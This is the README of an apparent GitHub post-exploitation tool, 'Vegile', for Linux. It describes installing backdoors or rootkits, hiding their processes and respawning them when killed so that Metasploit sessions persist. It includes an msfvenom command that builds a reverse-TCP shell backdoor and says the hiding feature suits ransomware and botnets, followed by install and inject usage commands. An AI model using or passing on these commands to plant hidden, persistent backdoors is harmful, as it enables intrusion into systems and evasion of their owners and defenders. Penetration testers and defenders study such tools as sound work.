# Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

Vegile is a tool for post exploitation echniquesin linux. Post Exploitation techniques will ensure that we maintain some level of access and can potentially lead to deeper footholds into our targets trusted network.

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)

## :book: How it works

This tool will setting up your backdoor/rootkits
when backdoor already setup it will be hidden your spesisifc process ,unlimited your session in metasploit and transparent.
Even when it killed,it will re-run again . There always be a procces which while run another process,
So we can assume that this procces is unstopable like a Ghost in The Shell

#### READ THIS

- right now i just tested backdoor with msfvenom command using reverse_shell [ its work ] 
- msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR
- for hidden process you can use for rootkits,backdoor,ransom and botnet { sh,python,perl,exe and binary }.



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  [backdoor/rootkit]
- Vegile -u / --unlimited [backdoor/rootkit]
- Vegile -h / --help 


## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- www.github.com/gianlucaborello to give a reference 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***
